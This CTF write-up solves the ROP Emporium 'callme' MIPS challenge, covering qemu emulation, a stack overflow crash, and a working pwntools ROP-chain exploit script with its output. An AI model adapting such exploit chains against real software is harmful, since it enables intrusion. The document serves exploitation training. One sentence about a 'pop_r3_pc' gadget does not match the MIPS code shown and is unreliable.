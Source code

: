 ```yaml
---
layout: post
author: playoff-rondo
title:  "ROPemporium: CallMe MIPS"
date:   2020-10-10 18:01:37 -0500
categories: CTF-writeup
ctf-category: PWN
---
```


# callme MIPS
## Triage
![](https://i.imgur.com/4AAsy1E.png)

Chain calls to multiple imported methods with specific arguments and see how the differences between 64 & 32 bit calling conventions affect your ROP chain.
### Disassembly
main function calls vulnerable call pwnme

![](https://i.imgur.com/HWccWbN.png)

pwnme function 

![](https://i.imgur.com/FvCln4L.png)

## Eumulation
Because this binary is an MIPS archetecture, to be able to run the binary we need to emulate it somehow.

I will be using [qemu](https://www.qemu.org/), specifically qemu-mipsel

Install require libraries
`sudo apt install gcc-mipsel-linux-gnu`

Run the binary 
`qemu-mipsel -L /usr/mipsel-linux-gnu ./callme_mipsel `


## Vulnerability
In the pwnme function, 0x200 bytes are read into the user_input buff but the user_input buff is on the stack -0x28 (-40) bytes off from the return address.

If we supply 40 bytes, the last 4 bytes will overflow the return address and we gain control of the program counter.

Confirming the vulnerability:
```bash
python -c 'print "A"*36+"BBBB"' |qemu-mipsel -strace -L /usr/mipsel-linux-gnu ./callme_mipsel
```
```bash
--- SIGSEGV {si_signo=SIGSEGV, si_code=1, si_addr=0x42424242} ---
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
[1]    3278807 done                              python -c 'print "A"*36+"BBBB"' | 
       3278808 segmentation fault (core dumped)  qemu-mipsel -strace -L /usr/mipsel-linux-gnu ./callme_mipsel
```

## Exploit
Description says:
`To dispose of the need for any RE I'll tell you the following:
You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag.`

In mipsel the way to pass function parameters through registers:
`a0,a1,a2,a3`

We need gadgets that can load the values off the stack and into the correct registers.
Using ROPgadget:
`lw_a0_a1_a2_t9 = p32(0x00400bb0)# : lw $a0, 0x10($sp) ; lw $a1, 0xc($sp) ; lw $a2, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop`


We set the link register to the `pop_r3_pc` gadget to place the next function on the stack into `pc` but we also have a junk register of `r3` so I place 0 in there,

### Script
```python=
from pwn import *

context.binary = elf = ELF("./callme_mipsel")

lw_a0_a1_a2_t9 = p32(0x00400bb0)# : lw $a0, 0x10($sp) ; lw $a1, 0xc($sp) ; lw $a2, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop

payload = "A"*36
payload += lw_a0_a1_a2_t9
payload += p32(0)
payload += p32(elf.sym['callme_one']) # t9
payload += p32(0xd00df00d)	# a2
payload += p32(0xcafebabe)	# a1
payload += p32(0xdeadbeef)	# a0

payload += lw_a0_a1_a2_t9
payload += p32(0)
payload += p32(elf.sym['callme_two']) # t9
payload += p32(0xd00df00d)	# a2
payload += p32(0xcafebabe)	# a1
payload += p32(0xdeadbeef)	# a0

payload += lw_a0_a1_a2_t9
payload += p32(0)
payload += p32(elf.sym['callme_three']) # t9
payload += p32(0xd00df00d)	# a2
payload += p32(0xcafebabe)	# a1
payload += p32(0xdeadbeef)	# a0

io = process("./callme_mipsel",env={"QEMU_LD_PREFIX":"/usr/mipsel-linux-gnu"})
#io =gdb.debug("./callme_mipsel",env={"QEMU_LD_PREFIX":"/usr/mipsel-linux-gnu"})
io.sendline(payload)
io.interactive()
```
### Result
```bash
[*] '/home/chris/ctfs/ropemporium/callme/mips/callme_mipsel'
    Arch:     mips-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  '.'
[+] Starting local process './callme_mipsel': pid 3281191
[*] Switching to interactive mode
callme by ROP Emporium
MIPS

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$  
```
